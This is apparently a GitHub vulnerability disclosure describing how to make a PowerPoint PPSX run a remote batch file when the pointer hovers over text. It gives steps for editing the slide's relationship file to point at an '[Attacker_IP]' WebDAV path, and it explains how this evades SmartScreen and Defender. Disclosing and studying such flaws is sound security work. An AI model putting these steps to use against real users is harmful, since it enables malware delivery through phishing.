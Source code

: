 ## Steps to reproduce the exploit

1. In Powerpoint it is possible to set an action on a mouse over or mouse click 

2. We can set a file to be executed and this was exploited by attackers in 2017 where a particular powershell command could be run 

3. Since that vulnerability was patched, this one is an extension to it where instead of using "Run Program" action we use "HyperLink To" action and set it to a "Other file"

4. Then we can select a file within the system.

5. Save the Powerpoint file as PPSX or PPS

6. Then open the PPSX file using a ZIP program and change the value in "\ppt\slides\_rels\slide1.xml.rels"  of rID which is connected to your mouse over event to "file:///\[Attacker_IP]\webdavfolder\file.bat"

7. Due to the way SMB connections work in Windows 10, SMB connections over Internet are possible even if SMB ports (445/139) are closed  if a webserver supporting WEBDAV extension is hosted by an attacker

8. Now hover over your the text and observe that user just needs to acccept the pop-ups and this allows the program to be executed

9. Combined with social engineering this attack would work completely.

## Note:
1. The attack is able to bypass the Powerpoint's restriction of not being able to add a remote file to the HyperLink action which if we try to add using the GUI, we will see Powerpoint complaining about it

2. Also if a HTTP/HTTPS url is linked with the hyperlink action, then the OS would download the file using a browser on the system at which point Windows Defender/Smartscreen would kick in indicating that it is an untrusted file and even if we hit 'Run', it will quartine the file, so an attacker can bypass that using this method

3. MSRC was contacted about the vulnerability, but they decided to ignore it and stated that since it requires social engineering attack, they are not willing to fix it

![](exploit.gif)
